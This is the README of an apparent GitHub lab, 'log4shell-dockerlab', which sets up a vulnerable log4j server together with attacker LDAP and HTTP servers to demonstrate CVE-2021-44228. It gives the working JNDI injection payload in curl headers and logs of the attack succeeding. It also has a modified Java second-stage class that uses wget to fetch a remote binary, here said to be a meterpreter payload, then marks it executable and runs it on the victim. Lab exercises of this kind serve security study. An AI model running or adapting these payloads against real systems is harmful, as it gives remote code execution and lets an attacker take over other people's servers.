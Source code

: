 # log4shell-dockerlab

## Credits
All credits goes to the original authors. I just git-cloned and created a docker-compose file, that's all. 

- [LunaSec - log4shell 0-day](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [@christophetd - log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)
- [@mbechler - marshalsec](https://github.com/mbechler/marshalsec)
- [@tangxiaofen7 - Exploit.java](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

## Description 
This repository contains a docker-compose setup which starts an attacker LDAP server and a victim web server that is vulnerable to log4shell (CVE-2021-44228). 

## Components 

Victim Web server - log4shell-vulnerable-app: A web server with log4j, vulnerable to first stage payload, which is the log4shell attack. 

Attacker LDAP sever - marshalsec: A LDAP server that receives jndi request from the victim web server. Redirects the victim web server to attacker web server. 

Attacker Web server - A `python3 -m http.server` server which hosts the second stage payload, which is the `Exploit.class`. 

## Usage 

Start the victim web server and the attacker ldap server 
```
docker-compose up --build 
```

Prepare the second stage payload. The port 8888 is hardcoded. To change this, modify `./marshalsec/Dockerfile`.
```
cd ./attacker-webserver
python3 -m http.server 8888
```

Attack
```
// Attack with log4shell payload 
└─# curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'    

Hello, world!

// Docker-compose's LDAP server replying to JNDI & victim web server downloading Exploit.class from the attacker web server 
log4shell-dockerlab-targetweb-1  |
log4shell-dockerlab-jndi-1       | Send LDAP reference result for Exploit redirecting to http://172.17.0.1:8888/Exploit.class
log4shell-dockerlab-targetweb-1  | 2021-12-12 05:01:44,345 http-nio-8080-exec-7 WARN Error looking up JNDI resource [ldap://192.168.40.128:1389/Exploit]. javax.naming.NamingException: problem generating object using object factory [Root exception is java.lang.ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory]; remaining name 'Exploit'
log4shell-dockerlab-targetweb-1  |      at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1092)

// Attacker's web server sending second stage payload to the victim web server. This will get executed.
└─# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
172.20.0.3 - - [12/Dec/2021 00:01:44] "GET /Exploit.class HTTP/1.1" 200 -
```

Check the attack poc 
```
// Check docker ps and find out container ID of the "targetweb"
└─# docker ps
CONTAINER ID   IMAGE                           COMMAND                  CREATED             STATUS          PORTS                                       NAMES
1131d694c91a   log4shell-dockerlab_jndi        "/usr/local/bin/mvn-…"   51 minutes ago      Up 51 minutes   0.0.0.0:1389->1389/tcp, :::1389->1389/tcp   log4shell-dockerlab-jndi-1
a2217b3781ad   log4shell-dockerlab_targetweb   "java -jar /app/spri…" 


// Check /tmp and validate the POC have worked 
└─# docker exec a2217b3781ad ls /tmp
hsperfdata_root
log4shell-pwned
```

## Usage - Modified Payload 
Instead of the `Exploit.java` POC, you can modify the payload.

Install JDK if you don't have one 
```
apt install -y default-jdk 
```

Modify the PoC. For example, you can test with a metasploit's `multi/script/web_delivery`. 
```
// Modified PoC to ship meterpreter instead of the original echo pwned > /tmp/log4shell-pwned payload. 

public class Rev {
    public Rev() {}
    static {
        try {
            String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                    ? new String[]{"cmd.exe","/c", "calc.exe"}
                    : new String[]{"sh","-c", "wget -qO PqhJT1H2 --no-check-certificate http://192.168.40.128:7777/mhjfufvGzrRws; chmod +x PqhJT1H2; ./PqhJT1H2& disown"};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        Rev e = new Rev();
    }
} 
```

Compile the second stage. Make sure to target JDK 8, since the `log4shell-vulnerable-app` was built on JDK 8. 
```
// Compile with JDK 8
javac --release 8 <your-payload>.java 

// Sanity check and make sure it's version 52.0 (jdk 8)
└─# file Rev.class
Rev.class: compiled Java class data, version 52.0 (Java 1.8)
```

Host the file, and attack again
```
python3 -m http.server 8888 
curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'
ex) curl 192.168.40.128:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.40.128:1389/Exploit}'  
```

## References 
https://www.lunasec.io/docs/blog/log4j-zero-day/
http://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228
https://github.com/christophetd/log4shell-vulnerable-app
https://github.com/mbechler/marshalsec
https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
